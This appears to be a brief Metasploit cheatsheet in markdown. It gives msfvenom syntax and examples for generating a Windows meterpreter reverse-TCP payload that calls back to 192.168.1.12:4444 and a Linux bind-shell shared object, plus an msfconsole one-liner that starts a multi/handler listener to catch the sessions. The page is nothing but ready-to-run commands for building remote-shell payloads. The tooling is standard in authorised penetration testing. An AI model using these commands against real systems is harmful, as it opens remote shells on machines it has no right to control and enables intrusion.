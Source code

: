 # Metasploit Framework Cheatsheet



#### Generate a payload

```bash
 msfvenom -p <payload> VAR1=value1 VAR2=value2 -f <format> > outfile
```

##### Examples

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444 -f vbs-exe > meterpreter_reverse_tcp.txt 
```

```bash
msfvenom -p linux/shell/bind_tcp RHOST=0.0.0.0 RPORT=1337 -f elf-so > bind_shell.so
```



#### MSF Console

```bash
msfconsole -x "use exploit/multi/handler ; set PAYLOAD <payload> ; set  VAR1 value1 ; set VAR2 value2 ; exploit ; exit -y;"
```




